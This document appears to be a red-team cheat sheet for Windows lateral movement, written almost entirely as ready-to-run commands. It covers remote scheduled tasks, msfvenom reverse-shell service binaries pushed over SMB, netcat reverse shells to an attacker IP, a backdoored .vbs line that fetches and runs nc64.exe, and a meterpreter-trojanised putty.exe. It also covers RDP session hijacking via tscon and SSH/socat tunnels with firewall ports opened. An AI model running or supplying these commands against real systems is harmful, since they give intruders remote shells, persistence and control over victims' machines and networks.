 ### Creating Scheduled Tasks Remotely
```Powershell
schtasks /s TARGET /RU "SYSTEM" /create /tn "<task_name>" /tr "<command/payload_to_execute>" /sc ONCE /sd 01/01/1970 /st 00:00
schtasks /s TARGET /run /TN "<task_name>" 
schtasks /S TARGET /TN "<task_name>" /DELETE /F
```

### Spawn process remotely
1. `msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=<attacker_ip> LPORT=<attacker_port> -o <output_filename>.exe`
2. `smbclient -c 'put <local_file_path>' -U <username> -W <domain> '//<target_ip_or_hostname>/<share_name>/'`
3. `msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST <attacker_ip>; set LPORT <attacker_port>; exploit"`
4. `nc -lvp <listening_port>`

From the new shell on the listener
1. `runas /netonly /user:<domain>\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe <attacker_ip> <attacker_port>"`
2. `sc.exe \\<target_ip_or_hostname> create <service_name> binPath= "<path_to_executable>" start= auto`
3. `sc.exe \\<target_ip_or_hostname> start <service_name>`


### Backdooring .vbs Scripts
- `CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\<your_share_IP>\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True`

### Backdooring .exe Files
- `msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe`

### RDP hijacking
1. Run `cmd` as Administrator
2. `PsExec64.exe -s cmd.exe`
3. List server's sessions with '`query user`'
4. Use `tscon.exe` and specify the `session ID` we will be taking over, as well as our current `SESSIONNAME`
   - `tscon 3 /dest:rdp-tcp#6`
   
### SSH Remote Port Forwarding
- Victim: `ssh attacker@10.50.46.25 -R 3389:3.3.3.3:3389 -N`
- Attacker: `xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPassword`

### SSH Local Port Forwarding (to expose attacker's port 80)

Victim
1. `ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N`
2. ```Powershell
   add firewall rule
   netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
   ```
   
### Port Forwarding With socat
1. Open port `1234` and redirect to port `4321` on host `1.1.1.1`
   ```Powershell
   socat TCP4-LISTEN:1234,fork TCP4:1.1.1.1:4321
   ```
2. `netsh advfirewall firewall add rule name="Open Port 1234" dir=in action=allow protocol=TCP localport=1234`
- To expose attacker's port `80`: `socat TCP4-LISTEN:80,fork TCP4:1.1.1.1:80`